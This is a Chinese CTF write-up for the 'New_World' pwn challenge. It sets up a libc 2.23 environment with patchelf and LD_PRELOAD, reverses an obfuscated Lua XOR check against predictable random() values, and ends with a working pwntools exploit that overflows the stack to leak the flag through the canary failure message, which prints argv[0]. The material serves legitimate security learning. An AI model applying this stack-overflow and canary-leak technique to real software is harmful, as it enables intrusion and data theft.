







## CTF-Pwn-libc2.23的canary信息泄露

Time: 2022.12.21  
Tags: CTF  

### 0x00 前言
最近在 CTF 比赛中遇到一道二进制题目，严格来讲是一道杂项题目带了一点点二进制的知识。题目中包含 `lua` 混淆代码、伪随机数的知识以及简单的栈溢出和 canary 信息泄露等知识点，题目中提供了 `libc` 库，需要在指定 `libc` 版本下做题。

在二进制题目中，使用指定版本的 `libc` 搭建题目环境是一项基本功，本文以该题为线索，在完成题目的同时，记录二进制做题过程中搭建指定 `libc` 版本的题目环境的技巧。

本文为该题的 writeup；本文测试环境如下：
```
Ubuntu 20.04 x64
```

### 0x01 题目
拿到题目 [New_World](./New_World.zip)，查看二进制基本信息以及运行状态如下：
<div align="center">

</br>[1.New_World基本信息]
</div>

我们可以了解到题目开启了 `Canary / NX` 保护，需要在指定的 `libc` 版本下运行，虽然我们这里使用使用系统内置的 `libc` 也能正常跑起来。

直接运行 `libc` 文件查看基本信息：
<div align="center">

</br>[2.运行libc获取基本信息]
</div>

可以看到我们本地为 `libc-2.27`，而题目提供的 `libc` 运行失败了，这是因为 `libc` 和 `ld` 文件版本必须一致，是配套使用的；不过我们可以使用 `strings` 获取版本信息：
<div align="center">

</br>[3.strings获取libc版本信息]
</div>

我们需要使用指定的 `libc` 运行题目，虽然我们可以替换本地系统的 `libc`，但这样会破坏系统环境，通常使用 `LD_LIBRARY_PATH/LD_PRELOAD` 或 `patchelf` 工具加载依赖库，不过在此之前我们需要准备好版本匹配的 `libc && ld`；

使用 glibc-all-in-one(https://github.com/matrix1001/glibc-all-in-one) 可以快速准备 `libc && ld` 环境：
```
$ git clone https://github.com/matrix1001/glibc-all-in-one.git
$ cd glibc-all-in-one/
$ ./update_list
$ ./download 2.23-0ubuntu11.3_amd64
```

使用 `LD_PRELOAD` 手动加载如下：
```
$ LD_PRELOAD=./libc.so.6 ./glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./New_World
```

在 `pwntools` 中则使用如下进行加载：
```
p = process(["./glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so", "./New_World"], env={"LD_PRELOAD":"./libc.so.6"})
```

除了这种方式以外，我们还阔以使用 patchelf(https://github.com/NixOS/patchelf.git) 直接修改二进制中依赖库的路径：
```
# 编译 patchelf
$ git clone https://github.com/NixOS/patchelf.git
$ cd patchelf
$ ./bootstrap.sh
$ ./configure
$ make

# 修改依赖库路径
$ cd [New_World]
$ cp New_World New_World_patch
# 修改 ELF interpreter 路径
$ ./patchelf/src/patchelf --set-interpreter ./glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./New_World_patch
# 修改 libc 路径
$ ./patchelf/src/patchelf --replace-needed libc.so.6 ./libc.so.6 ./New_World_patch
```

修改完成后，我们再通过 ldd 检查：
<div align="center">

</br>[4.patch题目依赖库路径]
</div>

那么题目环境就搭建好了：
```
$ ncat -l 7777 -e ./New_World_patch
# or
$ socat tcp-l:7777,fork exec:./New_World_patch,reuseaddr
```

### 0x02 分析
将题目拖入 IDA 进行分析，首先是读取 `main.lua` 的内容并进行解密，随后让用户输入两个数字，经过 lua 函数计算后，与 `random()` 生成的值进行比较，共要满足该条件三轮，随后就会读取 flag：
<div align="center">

</br>[5.IDA分析New_World]
</div>

直接查看混淆 `main.lua` 的内容如下：
<div align="center">

</br>[6.混淆的main.lua]
</div>

通过静态分析 `enc` 函数，或动态调试可得 `main.lua` 的内容如下，本质就是一个随机数生成函数：
```
function BitXOR(a,b)
    local p,c=1,0
    while a>0 and b>0 do
        local ra,rb=a%2,b%2
        if ra~=rb then c=c+p end
        a,b,p=(a-ra)/2,(b-rb)/2,p*2
    end
    if a<b then a=b end
    while a>0 do
        local ra=a%2
        if ra>0 then c=c+p end
        a,p=(a-ra)/2,p*2
    end
    return c
end

function hndl(i,j)
    j = BitXOR(574894234,j)
    return BitXOR(i,j)
end
```

同时在 C 语言中，未初始化的随机数种子默认为 1，也就是说我们比较的三轮随机数其实就是定值，通过编写 C 程序获得三轮定值如下：
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int value = 0;
    int i = 0;

    for (i = 0; i < 3; i++) {
	value = random();
	printf("0x%x\n", value);
    }

    return 0;
}

0x6b8b4567
0x327b23c6
0x643c9869
```

结合 `main.lua` 其构成的如下等式，并且位异或运算为可逆运算，运行 `lua` 脚本可得结果：
```
等式：
hndl(a, b) = 0x6b8b4567
hndl(c, d) = 0x327b23c6
hndl(e, f) = 0x643c9869

逆运算：
hndl(1, 0x6b8b4567) = b, b = 1238332924
hndl(2, 0x327b23c6) = c, c = 272569182
hndl(3, 0x643c9869) = f, f = 1182312688
```

输入这三组值就可以通过校验，随后程序将读取 `flag`，但并没有输出；不过这里存在一个明显的栈溢出漏洞，配合 `put + flag` 就可以了？但程序是开启了 canary 保护的。

这里需要用到 `libc-2.23` 的 canary 信息泄露，查看 glibc 源码(2.23)中的 `stack_chk_fail` 函数实现，最终跟进到 `debug/fortify_fail.c`：
<div align="center">

</br>[7.fortify_fail源码]
</div>

当触发 canary 报错时，会将 `argv[0]` 的值随错误消息一并输出。那么我们只需要通过栈溢出，将 `flag` 的地址覆盖主函数 `argv[0]` 参数的地址即可，`flag` 将随 canary 错误信息一并输出。

### 0x03 题解
编写 `exp.py` 如下：
```
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']

random = [(1, 1238332924), (2, 272569182), (3, 1182312688)]

#p = process(["./glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so", "./New_World"], env={"LD_PRELOAD":"./libc.so.6"})
p = process("./New_World_patch")
#p = remote("127.0.0.1", 7777)

def dbg():
    gdb.attach(proc.pidof(p)[0])

if __name__ == "__main__":
    #dbg()
    for i in range(3):
        p.readuntil("New World;")

        p.sendline("%d" % random[i][0])
        p.sendline("%d" % random[i][1])
        p.readuntil("!!\n")
    # end for

    print(p.recvuntil("is open."))

    flag_addr = 0x602140
    payload = p64(flag_addr)*35
    p.send(payload)
    p.interactive()
```

### 0x04 References
https://github.com/matrix1001/glibc-all-in-one  
https://github.com/NixOS/patchelf.git  
https://firmianay.gitbook.io/ctf-all-in-one/4_tips/4.12_stack_chk_fail  
https://bbs.pediy.com/thread-254868.htm  
https://github.com/lattera/glibc/blob/master/debug/stack_chk_fail.c  